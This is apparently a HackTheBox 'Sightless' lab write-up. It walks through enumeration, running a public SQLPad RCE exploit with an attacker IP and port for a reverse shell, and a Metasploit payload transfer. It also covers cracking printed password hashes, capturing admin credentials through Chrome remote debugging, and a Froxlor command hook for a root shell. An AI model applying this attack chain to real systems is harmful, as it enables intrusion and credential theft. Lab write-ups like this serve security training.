 ## Hackthebox Sightless Writeup 10.129.21.27

### Nmap enumeration

	Nmap scan report for 10.129.21.27
	Host is up, received reset ttl 63 (0.053s latency).
	Scanned at 2024-09-22 20:12:21 CDT for 71s

	PORT   STATE SERVICE REASON         VERSION
	21/tcp open  ftp     syn-ack ttl 63
	| fingerprint-strings: 
	|   GenericLines: 
	|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.21.27]
	|     Invalid command: try being more creative
	|_    Invalid command: try being more creative
	22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoivagBalUNqQKPAE2WFpkFMj+vKwO9D3RiUUxsnkBNKXp5ql1R+kvjG89Iknc24EDKuRWDzEivKXYrZJE9fxg=
	|   256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA4BBc5R8qY5gFPDOqODeLBteW5rxF+qR5j36q9mO+bu
	80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Did not follow redirect to **http://sightless.htb/**
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
	SF-Port21-TCP:V=7.94SVN%I=7%D=9/22%Time=66F0C080%P=aarch64-unknown-linux-g
	SF:nu%r(GenericLines,A1,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20F
	SF:TP\x20Server\)\x20\[::ffff:10\.129\.21\.27\]\r\n500\x20Invalid\x20comma
	SF:nd:\x20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x
	SF:20try\x20being\x20more\x20creative\r\n");
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
	Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.0 (96%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 5.0 - 5.5 (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
	No exact OS matches for host (test conditions non-ideal).
	TCP/IP fingerprint:
	SCAN(V=7.94SVN%E=4%D=9/22%OT=21%CT=%CU=31167%PV=Y%DS=2%DC=T%G=N%TM=66F0C0BC%P=aarch64-unknown-linux-gnu)
	SEQ(SP=FC%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)
	SEQ(SP=FE%GCD=1%ISR=103%TI=Z%CI=Z%II=I%TS=C)
	OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
	WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
	ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)
	T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
	T2(R=N)
	T3(R=N)
	T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
	IE(R=Y%DFI=N%T=40%CD=S)
	
From out nmap scan we can see the IP 10.129.21.27 is trying to redirect to http://sightless.htb on port 80. Let's add this to our /etc/hosts file and enumerate the web site on port 80. 

### Adding IP to /etc/hosts

![Hosts](/Sightless/images/hosts-file.png) 

Viewing the source code of sightless landing page we can find a sqlpad subdomain. Let's also add this to our /etc/hosts file and continue with enumeration. Sightless appears to be a development software from reading the home page.

Sightless is also an Enginx Server running on Ubuntu OS. Therefore, php, and html extensions will most likely be common.


![sql subdomain](/Sightless/images/sql-subdomain.png) 

The sqlpad subdomain looks like it might let up execute and run SQL queries. Lets try loading and running xp_cmdshell.

![sqlpad](/Sightless/images/sqlpad.png) 


Enumerating the sqlpad domain with dirsearch returns a manifest.json file that we can view.

![dirsearch](/Sightless/images/dirsearch.png) 

![dirsearch](/Sightless/images/directory-access.png) 

I'm going to see if I can run curl against the url to view the contents.

The manifests file doesn't return any information but clicking the 3 dots on the web page we can see that this is version 6.10 and searching SQLPad exploits we do see one for RCE on github catagorized as [CVE-2022-9444](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944). 


After downloading the github repo to my host machine I run the exploit script without and ags and I can see that it accepts the following arguments:

1. root_url
2. attacker_ip
3. attacker_port

I'm going to start a netcat listener on port 4444

Next I will run on my kali host:
	$ python3 exploit.py http://sqlpad.sightless.htb 10.10.14.X 4444


And we get an initial shell on the machine, it appears we are in a docker container.

![Shell](/Sightless/images/shell.png) 


### Exploitation

Viewing the sqlite db file in /var/lib/sqlpad we can see 2 user accounts.

1. john@sightless.htb
2. admin@sightless.htb

Python isn't installed in the docker container so I'm going to create a metasploit payload so I can transer files.

![Metasploit](/Sightless/images/met-payload.png) 

And transfer the payload to the target.

![Metasploit](/Sightless/images/transfer.png) 


Set up the Metasploit multi / handler

![Metasploit](/Sightless/images/transfer.png) 

After executing my payload on the target I get a meterpreter shell on my attack host.


![Metasploit](/Sightless/images/meterpreter.png) 


I pulled this hash out of the sqlprod db file. I will try to crack it.

$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n*********

I was able to crack the hash with JtR. It appears to be a hash for john. Let's see if I can SSH into the main box and get out of this docker shell.

![JtR](/Sightless/images/hash-crack.png) 

Looking at the /etc/passwrd file we see 3 users with shell access. Root, node, and michael.


![/etc/passwrd](/Sightless/images/passwrd.png) 

Shadow File

![/etc/shadow](/Sightless/images/shadow.png) 

Using unshadow I was able to get root and Michael's hashes. I will now try and crack them. 

$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.

$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/

John successfully cracked both hashes. Let's see if we can login via ssh.

Hashes:

blindside
insaneclownposse


![JtR](/Sightless/images/john.png) 

One of the hashes works to login via SSH to Michael account.

![SSH](/Sightless/images/ssh.png) 

Sightless internal netstat ports listening

127.0.0.1:33060
127::3000
127.0.0.1:3306
127.0.0.1:8080


![Network](/Sightless/images/netstat.png) 
![Network](/Sightless/images/netstat2.png) 




### Privilege Escalation

Searching linpeas output Chrome is running -remote debugging-port=0. This appears exploitable.

I also noticed an additional subdomain. admin when I was parsing linpeas output. I'll add it to my /etc/hosts file. 

![Priv Esc](/Sightless/images/chrome.png) 


I next locally port forwarded all the listening ports on the target to my attack machine.


![SSH Local](/Sightless/images/ssh-local.png) 

Now within firefox I will add them all in.

chrome://inspect/#devices


After adding all the ports and capturing the requests in chrome debugger we find that the login is the following credentials.

Username: admin
Password: ForlorfroxAdmin

![Froxlar login](/Sightless/images/login.png) 


For root I copied a php reverse shell to /tmp on michael's ssh session. 

From froxlor I will now create a new php version and have it set to the command /tmp/shell.php and save. I will then deactive and active the service to trigger my shell and get root access. Don't forget to have a listener on your attack machine.


![tmp shell](/Sightless/images/php-shell.png) 


![Froxlar](/Sightless/images/change-version.png) 

![Froxlar](/Sightless/images/disable.png) 

![Froxlar](/Sightless/images/enable.png) 

We should now get a call back with a root shell on our attack machine.

![Root](/Sightless/images/root.png) 

![Root](/Sightless/images/cleanup.png) 
